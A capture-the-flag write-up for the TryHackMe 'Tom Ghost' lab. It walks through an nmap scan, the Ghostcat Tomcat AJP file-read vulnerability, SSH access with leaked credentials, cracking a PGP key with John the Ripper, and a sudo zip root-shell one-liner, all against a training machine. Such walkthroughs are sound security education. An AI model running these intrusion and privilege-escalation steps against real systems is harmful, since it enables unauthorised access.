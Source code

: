 # Tom Ghost

***
![](https://tryhackme-images.s3.amazonaws.com/room-icons/016dea7c96e8b422241016405b571c8b.jpeg)

## Difficulty = Easy

***

Running our nmap scan we have this :

```bash
# Nmap 7.94 scan initiated Sun Oct  1 19:26:10 2023 as: nmap -sVC -T4 -oN nmap.txt -v 10.10.153.250  
Increasing send delay for 10.10.153.250 from 0 to 5 due to 61 out of 151 dropped probes since last increase.  
Nmap scan report for 10.10.153.250  
Host is up (0.30s latency).  
Not shown: 996 closed tcp ports (conn-refused)  
PORT     STATE SERVICE    VERSION  
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)  
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)  
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)  
53/tcp   open  tcpwrapped  
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)  
| ajp-methods:    
|_  Supported methods: GET HEAD POST OPTIONS  
8080/tcp open  http       Apache Tomcat 9.0.30  
| http-methods:    
|_  Supported Methods: GET HEAD POST OPTIONS  
|_http-title: Apache Tomcat/9.0.30  
|_http-favicon: Apache Tomcat  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Read data files from: /usr/bin/../share/nmap  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
# Nmap done at Sun Oct  1 19:27:14 2023 -- 1 IP address (1 host up) scanned in 64.14 seconds
```

Running dir/file bruteforce we have series of entries


![](https://i.imgur.com/hlK7riR.png)

Checking all of these doesn't seem to give me good leads, Even tried logging in but we always have status code `404`

![](https://i.imgur.com/ImOPnKO.png)

Enumerated harder and found [this](https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat/blob/main/CVE-2020-1938.md) , we have a **Ghostcat-Apache Tomcat AJP File Read/Inclusion Vulnerability**

![](https://i.pinimg.com/736x/77/2c/ab/772cab4b3b0153ef4d7c46a00ee76b91.jpg)

Running the exploit we found a password and username

![](https://i.imgur.com/QfXlS2m.png)

We can therefore login via `SSH`, since there is no where else to test the credential


![](https://i.imgur.com/nZvAe6G.png)

On `/home/skyfuck` directory we have a `tryhackme.asc` file 

![](https://i.imgur.com/7qeSxPf.png)

We can transfer this file to our target machine with `netcat` and then attempt to crack it

![](https://i.imgur.com/5ksLrIU.png)

First of all convert this `.asc` to a crack-able hash that `johntheripper` can understand

![](https://i.imgur.com/6EjYWxm.png)

Then we can crack it with the following syntax

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![](https://i.imgur.com/d9My8Vw.png)

Next run the command on your target system -:

```bash
$ gpg --import tryhackme.asc
```

![](https://i.imgur.com/OzccMGj.png)

Then run this next and input the passphrase we got from `johntheripper` **(ale......)**

```bash
$ gpg --decrypt-files credential.pgp
```

![](https://i.imgur.com/RKGhO3o.png)

***

**_Note :_**

Here are the two articles i used to go about solving the `.asc` and `.pgp` mystery

- [Link 1](https://www.openwall.com/lists/john-users/2015/11/17/1)
- [Link 2](https://superuser.com/questions/414679/how-to-extract-files-from-pgp-file)

***

Looks like we have user, **merlin** credential


![](https://i.imgur.com/hscZ38V.png)

Now switch user to **merlin**

![](https://i.imgur.com/xy1xdSE.png)

Running `sudo -l` we have permissions to run `zip` with the `sudo` command


![](https://i.imgur.com/deRWpXl.png)

Using this payloads we got user, **root**

```bash
$ TF=$(mktemp -u)
$ sudo zip $TF /etc/hosts -T -TT 'sh #'
```

![](https://i.imgur.com/xUliSXS.png)

GG 🥳

